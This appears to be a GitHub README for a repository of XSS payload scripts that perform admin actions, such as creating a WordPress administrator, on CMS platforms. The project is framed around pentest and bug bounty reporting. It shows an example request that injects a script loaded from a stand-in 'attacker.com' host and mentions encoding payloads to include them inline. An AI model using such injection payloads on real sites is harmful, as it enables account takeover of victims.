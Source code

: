 # Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Pull requests are welcome.

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
https://example.com/vulnerable.php?param=<script src%3d"http://attacker.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly into the request.

## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.
